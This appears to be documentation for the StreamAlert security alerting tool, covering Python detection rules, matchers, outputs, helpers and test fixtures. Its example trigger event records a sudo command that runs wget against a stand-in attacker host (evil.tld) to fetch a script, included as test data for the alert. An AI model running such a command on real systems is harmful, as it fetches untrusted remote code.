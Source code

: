Rules
=====

* Rules encompass data analysis and alerting logic
* Rules are written in native Python, not a proprietary language
* A Rule can utilize any Python function or library
* A Rule can be run against multiple log sources if desired
* Rules can be isolated into defined environments/clusters
* Rule alerts can be sent to one or more outputs, like S3, PagerDuty or Slack
* Rules can be unit tested and integration tested

Location
--------

Rules are stored in the ``rules/`` sub-directory

A separate .py should be made for each cluster you defined in the variables.json file.

Example: ``it.py``, ``pci.py``, ``production.py``

Overview
--------

All rules take this form::

    @rule('example', logs=[...], matchers=[...], outputs=[...])
    def example(record):
        # analyze the incoming record w/your logic
        return (
            # return true if an alert should be sent
        )

``record`` is an incoming record from any one of the configured datasources. You define ``logs`` and ``matchers`` to ensure the logic within the ``def`` function block only runs against logs that it should.


Example
-------

Here’s an example that alerts on the use of sudo in a PCI environment::

    @rule('production_sudo',                          # name of the rule
          logs=['osquery'],                           # applicable datasource(s)
          matchers=['pci'],                           # matcher(s) to evaluate
          outputs=['s3', 'pagerduty', 'slack'])       # where to send alerts
    def production_sudo(record):                      # incoming record/log
        table_name = record['name']
        tag = record['columns']['tag']
        return (
          table_name == 'linux_syslog_auth' and
          fnmatch(tag, 'sudo*')
        )

You have the flexibility to perform simple or complex data analysis

Parameter Details
-----------------

logs
~~~~~~~~~~~

``logs`` defines the log sources the rule supports; the ``def`` function block is not run unless this condition is satisfied.

A rule can be run against multiple log sources if desired.

Log sources (e.g. datasources) are defined in ``conf/sources.json`` and subsequent schemas are defined in ``conf/logs.json``. For more details on how to setup a datasource, please see the Datasources section.

matchers
~~~~~~~~

``matchers`` defines the conditions that need to be satisfied in order for the ``def`` function block to run against an incoming record.

Matchers are defined in ``rules/matchers.py``

Matchers can serve 2 purposes:

* To extract common logic into helpers. This improves readability and writability
* To ensure necessary conditions are met prior to analysis of the incoming record

In the above example, we are evaluating the ``pci`` matcher. As you can likely deduce, this ensures rule logic is only run if the incoming record is coming from the pci environment. This is achieved by looking for a particular field in the log. The code::

    @matcher('pci')
    def is_prod_env(record):
        return record['decorations']['envIdentifier'] == 'pci'


outputs
~~~~~~~

``outputs`` defines where the alert should be sent to, if the return value of the function is true.

StreamAlert supports sending alerts to PagerDuty, Slack and AWS S3. As demonstrated in the example, an alert can be sent to multiple destinations.


Helpers
-------
To improve readability and writeability, you can put commonly used logic in functions in ``stream_alert/rule_helpers.py`` and then call the function from within your rule.

Example function::

    def in_set(data, whitelist):
        """Checks if some data exists in any elements of a whitelist.

        Args:
            data: element in list
            whitelist: list/set to search in

        Returns:
            True/False
        """
        return any(fnmatch(data, x) for x in whitelist)

Example use of that function within a rule::

    @rule('foobar', ...)
    def foobar(record):
        ...
        user = ...
        user_whitelist = ...
        ...
        return (
          in_set(user,user_whitelist)
        )


Testing
-------

The ``test/fixtures/kinesis/`` subdirectory will contain folders for each cluster/environment.

Within each of these folders you can define:

* ``non_trigger_events.json``
* ``trigger_events.json``

This allows you to unit test your rules for expected behavior.

Recall our earlier example that alerts on the use of sudo in the pci environment. In ``trigger_events.json``, you would add an example log that should alert::

    {
    "name":"linux_syslog_auth",
    "hostIdentifier":"foobar",
    "unixTime":"1470824034",
    "decorations":{
        "envIdentifier":"pci",
        "roleIdentifier":"memcache"
        },
    "columns":{
        "tag":"sudo",
        "message":"john_adams : TTY=pts/0 ; PWD=/home/john_adams ; USER=root ; COMMAND=/usr/bin/wget http://evil.tld/x.sh",
        "facility": "authpriv"
    },
    "action":"added"
    }


.. warning:: One event per line. This log was put on multiple lines for readability and education purposes.

And lastly, in ``non_trigger_events.json``, you would add an example that shouldn't fire.




